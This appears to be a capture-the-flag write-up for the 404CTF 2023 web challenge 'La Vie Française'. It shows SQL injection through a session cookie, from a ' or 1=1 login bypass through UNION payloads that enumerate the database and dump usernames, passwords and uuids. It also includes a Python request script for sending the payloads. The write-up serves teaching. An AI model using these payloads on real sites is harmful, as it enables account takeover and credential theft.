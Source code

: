 ```yaml
---
title: CTFs | 404CTF2023 | La Vie Française
author: Stillwolfing
date: 2023-06-05
categories: [CTFs, 404CTF2023, Web]
tags: [CTF, 404CTF2023, Web]
permalink: /CTFs/404CTF2023/web/la_vie_francaise
---
```


Here is the context:

![context](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/context.png)


By clicking the link, we end on the journal's website:

![home](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/home.png)

Let's try to postulate:

![register](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/register.png)

It's a register page. We register with a random username, "bipboup".

We are redirected to a login page:

![login](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/login.png)

After connecting, we are on our account page:

![account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/account.png)

We have got a cookie named "uuid" which identify us on the website.

![cookie](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/cookie.png)

I could not decrypt the cookie. I thought that maybe the cookie is stored in the database and the username is retrieved with an sql query that could look like.

```sql
select username from users where uuid = <uuid>;
```

Maybe the way the sql query is made is vulnerable to sql injections.

So I tried this:

I added "' or 1=1-- -" after the my cookie to try to select the first row.

![poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/poc.png)

It worked, I'm connected as Jacques Rival.

I created a script to craft my requests:

```python
import requests
from bs4 import BeautifulSoup

url = "https://la-vie-francaise.challenges.404ctf.fr/account"
sep = "0x207c20"

payload = f""

cookies = {'uuid': payload}

r = requests.get(url, cookies=cookies).text
r = r.replace(",", "\n")

if "Connexion" in r:
    print("Courage, tu y es presque !")
else:
    soup = BeautifulSoup(r, 'html.parser')
    print(soup.find("h3").text)
    print("Bravo !")

```

We just have to replace the payload with our payload.

I tried a union based sqli. I tried a request like:

```sql
' UNION SELECT 1-- -
```

I increased the number of row until I reach the good number of row of the query.

with:
```sql
' UNION SELECT 1, 2, 3-- -
```

I get this output:

![union_poc](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_poc.png)

Ok so we need 3 arguments and the first one is displayed on the screen.

Let's try to get the version of the database:

```sql
' UNION SELECT version(), 2, 3-- -
```

![union_version](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_version.png)

The engine is a MariaDB.

Let's get the tables under this database(There are more like system tables and other ones could be created).

```sql
' UNION SELECT group_concat(table_name), 2, 3 from information_schema.tables where table_schema=database()-- -
```

![union_table](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_table.png)

There is a table user. We need to know the columns of the table:

```sql
' UNION SELECT group_concat(column_name), 2, 3 from information_schema.columns where table_name='users'-- -
```

![union_columns](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_columns.png)

Now we can dump the table:

```sql
' UNION SELECT group_concat(uuid, {sep} , username, {sep}, password), 2, 3 from users-- -
```

![union_dump](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/union_dump.png)

We have madelaineforestier's password and uuid. We can connect using both.

Let's use the uuid:


![madelaine_forestier_account](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/madelaine_forestier_account.png)

On the admin panel:

![flag](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/flag.png)

We've got the flag 🥳 !!

I hope you learned something through this writeup 😉

Oh wait, I almost forgot to flex !

![first_blood](/assets/img/CTFs/404CTF2023/web/la_vie_francaise/first_blood.png)



